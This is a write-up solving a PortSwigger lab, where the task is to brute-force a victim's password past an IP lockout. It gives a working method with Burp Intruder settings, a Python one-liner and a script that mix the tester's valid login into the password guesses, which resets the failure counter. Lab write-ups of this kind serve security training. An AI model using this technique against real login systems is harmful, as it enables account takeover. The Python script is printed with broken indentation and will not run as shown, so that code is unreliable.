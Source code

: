 # [Lab: Broken brute-force protection, IP block](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block)

## Lab

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Analysis

1. If you log in incorrectly more than 3 times, you will be blocked for 1 minute from the 4th time even if you log in correctly
2. can't bypass prevention using the `X-Forwarded-For` header.

## Solutions

Every 2 times brute force, log in to `wiener` account, then continue brute force will not be blocked

1. intruder:

- mode pitchfork
- payload positions:

  ```text
  username=§§&password=§§
  ```

- payload:
  - create username set 1 using python:

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ python -c "print('carlos\ncarlos\nwiener\n'*51)" > payload1
  ```

  - create password set 2 using python:
    - save candidate passwords to file named `password`
    - python source:

    ```python
    def main():
    with open('password') as file:
      index = 0
      for line in file:
      index += 1
      if index % 3 == 0:
        print('peter')
        index += 1
      print(line.rstrip())


    if __name__ == '__main__':
    main()
    ```

  - save to `payload2`

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ python genpayload2.py > payload2
  ```

- Resource pool:
  - max concurrent pool: 1

=> solved
